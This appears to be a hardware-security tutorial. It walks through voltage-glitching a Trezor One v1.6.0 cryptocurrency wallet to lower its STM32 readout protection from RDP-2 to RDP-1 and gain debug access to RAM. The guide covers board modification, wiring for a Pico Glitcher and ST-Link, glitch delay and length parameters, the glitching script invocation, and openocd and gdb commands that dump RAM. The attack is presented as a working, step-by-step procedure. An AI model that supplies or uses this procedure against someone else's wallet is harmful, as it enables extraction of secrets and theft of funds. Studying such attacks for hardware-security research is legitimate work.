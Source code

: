 # Trezor One v1.6.0 glitching

This short summary will explain how to attack the Trezor One and how to get from RDP level 2 to RDP level 1 with access to RAM. With RAM access, other attacks can be performed, for example another voltage glitching attack to downgrade from RDP-1 to RDP-0.

![](images/01-original-target.JPG)

## Preparations

Begin by covering delicate components with a metal foil and desolder the marked capacitors:

![](images/02-covering-delicate-components.JPG)
![](images/03-desoldered-capacitors.JPG)

Solder a breakout pinheader to the Trezor One to get SWD access:

![](images/04-soldered-breakout-pinheader.JPG)

Glue a SMA connector to the backside of the device and connect the positive lead (middle pin) to the `V_CAP` line and the negative lead to `GND`:

![](images/05-backside.JPG)
![](images/06-sma-connector-on-vcap.JPG)

Connect a ST-Link debug adapter to the SWD lines, and the reset line to `RESET`, as well as the power lines to the Pico Glitcher:

| Trezor pins   | ST-Link | Pico Glitcher |
|---------------|---------|---------------|
| RESET         |         | RESET output  |
| GND           | GND     | GND           |
| SWO           |         |               |
| SWCLK         | SWCLK   |               |
| SWDIO         | SWDIO   |               |
| VDD           | T_VCC   | VTARGET       |
| SMA connector |         | SMA crowbar   |

Connect the input `EXT1` to the crowbar glitch output `GLITCH`. This is necessary to trigger on the rising-edge of the voltage on the `V_CAP` line (green dupont cable in the following figure). Turn the potentiometer labeled `ATN` all the way to the right (clockwise). The `THR` potentiometer should be adjusted during the execution of the glitcher script so that no timeouts occur (probable `3/4` position, the arrow points to the left).

![](images/07-glitching-setup.JPG)
![](images/08-trezor-connections.JPG)


Connect channel 1 of an oscilloscope to the `VCAP` line via the SMA connector, channel 2 to the `VTARGET` output and the external trigger input of the oscilloscope to the `EXT1` hook.

![](images/09-pico-glitcher-setup.JPG)

DO NOT connect the Trezor one during glitching via USB to your computer.

## Voltage traces

Verify the startup sequence of the STM32F205 by measuring the voltage traces during startup:

![](images/10-startup.bmp)

The level of the voltage supply should slowly rise in comparison to the voltage on the `V_CAP` line. Furthermore, the voltage output on the `VCAP` line is delayed approximately 150ms after the device is powered on. Powering the device and measuring the voltage traces can be done with the command:

```bash
power-on --rpico /dev/<tty-device>
```

## Glitching

Now everything is set up, we can start glitching our device. For this, the script `stm32f2-boot-debugger.py` has been prepared. This script powers up the device, waits for the trigger signal on input `EXT1`, waits a given delay and emits a glitch of a certain length. Afterwards, it is tested if memory can be read from RAM.

![](images/11-vcap-power-trace.bmp)

Successful glitches should be found about 176us after the VCAP line comes up. Start by searching a wider parameter space and reduce the parameter space when the first positive events are observed. The glitch length is not critical, but in general shorter glitches are preferable.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1
```

Use the `analyzer` from `findus` to analyze the glitch parameters:

```bash
analyzer --directory databases --auto-update 60
```

![](images/12-parameterspace.png)

In the default configuration, the script `stm32f2-boot-debugger.py` does not halt if a positive glitch is detected. This is helpful to search for good parameters. If you want to get live debug access to the RAM, you can use the `--halt` parameter and stop execution of the script. Use `--resume` to resume data collection to the previous database.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1 --resume --halt
```

When the script is stopped (when a successful glitch is detected), further instructions are printed to the terminal:

```bash
[+] Experiment 158	12914	(3)	176526	126	R	b'success: read zero'
[+] Now connect the Trezor One via USB with your computer and go to the Trezor Suite app.
    Wait for the Trezor One to connect. Do not abort this script!
    If the pin input on the Trezor comes up, execute the following command to dump the memory:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
    Connect to openocd via gdb or telnet:
    $ telnet localhost 4444
    $ arm-none-eabi-gdb
    (gdb) target remote :3333
    (gdb) monitor reset halt
    (gdb) continue
    Or dump the RAM as is with the following command:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

In this state, you can either try to dump the RAM contents:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

Or you can connect to the device via telnet or gdb. First initialize a debug connection with openocd:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
```

Then connect via telnet:
```bash
telnet localhost 4444
```

Or GDB:
```bash
arm-none-eabi-gdb
(gdb) target remote :3333
(gdb) monitor reset halt
(gdb) continue
```
